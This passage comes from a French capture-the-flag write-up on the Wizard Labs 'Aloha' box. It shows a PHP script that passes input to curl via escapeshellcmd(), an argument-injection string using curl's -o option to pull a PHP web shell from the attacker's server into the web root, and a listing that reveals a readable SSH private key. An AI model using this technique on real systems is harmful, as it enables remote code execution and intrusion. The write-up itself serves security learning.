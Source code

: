 ```php
   if (preg_match('/\b'.$_GET['command'].'\b/', $host)) {
        die('<b><font color="red">ERROR:</b></color> restricted host');

    }
}
// ip ranges 127.0.0.1 - 127.255.255.254 also work using ip2long we can use a range
$ip = '2130706433';
$ip2 = '2147483646';
$gethostname = parse_url($_GET['command'], PHP_URL_HOST);
$hostname = gethostbyname($gethostname);
if (ip2long($hostname) <= $ip2 && $ip <= ip2long($hostname)) {
    die('<b><font color="red">ERROR:</b></color> restricted host');

}
system('curl -s ' . escapeshellcmd($_GET['command']) . ' || echo website not found');
?>
```

La fonction *escapeshellcmd()* est suffisamment forte pour échapper correctement les caractères spéciaux du shell (points virgule, backticks, pipe, etc) mais ne considère pas le tiret comme un caractère dangereux.  

Grave erreur puisque l'on peut alors passer des options à cURL et notamment la plus connue : *-o* qui permet d'indiquer où écrire le contenu téléchargé.  

On va donc partager un shell PHP via un serveur web temporaire et le faire rapatrier sur notre victime et passant la chaîne suivante au formulaire :  

```plain
http://10.254.0.29:8000/shell.php -o /var/www/html/devloop.php
```

On obtient ainsi un shell en tant que *www-data* :  

![Wizard Labs CTF Aloha webshell ](https://raw.githubusercontent.com/devl00p/blog/master/images/wizard-labs/aloha_rce.png)

Flowers Powers
--------------

C'est journée portes ouvertes pour ce cher *Alex* :  

```plain
/home/alex:
total 16
drwxr-xr-x 1 alex alex   78 Mar 21 17:53 .
drwxr-xr-x 1 root root   20 Mar 21 00:14 ..
-rw-r--r-- 1 alex alex  220 Mar 21 00:14 .bash_logout
-rw-r--r-- 1 alex alex 3771 Mar 21 00:14 .bashrc
drwxrwxr-x 1 alex alex   48 Mar 21 17:20 .dev
-rw-r--r-- 1 alex alex  807 Mar 21 00:14 .profile
-rw------- 1 alex alex  816 Mar 21 00:16 .viminfo

/home/alex/.dev:
total 12
drwxrwxr-x 1 alex alex   48 Mar 21 17:20 .
drwxr-xr-x 1 alex alex   78 Mar 21 17:53 ..
-rw-r--r-- 1 root root 1675 Mar 21 00:17 id_rsa
-rw-r--r-- 1 root root  392 Mar 21 00:17 id_rsa.pub
-rw-rw-r-- 1 alex alex  246 Mar 21 00:16 note.txt
```
